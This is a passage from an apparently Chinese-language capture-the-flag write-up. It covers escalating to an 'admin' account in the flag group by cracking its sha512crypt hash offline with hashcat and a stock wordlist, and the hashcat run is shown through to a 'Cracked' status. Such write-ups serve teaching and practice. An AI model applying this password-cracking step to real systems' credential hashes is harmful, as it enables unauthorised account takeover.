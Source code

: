 

`admin`的hash值知道了，可以想办法爆破来得到`admin`账号的密码。

之所以要提权`admin`用户，是因为考虑到`/flag.txt`是flag用户组可读，看一下admin：

```shell
$ groups admin
admin : admin flag
$

```

也是`flag`用户组的，因此可以读`/flag.txt`

利用kali自带的hashcat或者john爆破都可以：

```shell
feng@feng:~/桌面$ hashcat -m 1800 -a 0 -o found.txt 1.hash /usr/share/john/password.lst
hashcat (v6.0.0) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i7-8550U CPU @ 1.80GHz, 1408/1472 MB (512 MB allocatable), 1MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Initializing backend runtime for device #1...
ls
Host memory required for this attack: 64 MB




[s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => Dictionary cache built:
* Filename..: /usr/share/john/password.lst
* Passwords.: 3559
* Bytes.....: 26325
* Keyspace..: 3559
* Runtime...: 0 secs

                                                 
Session..........: hashcat
Status...........: Cracked
```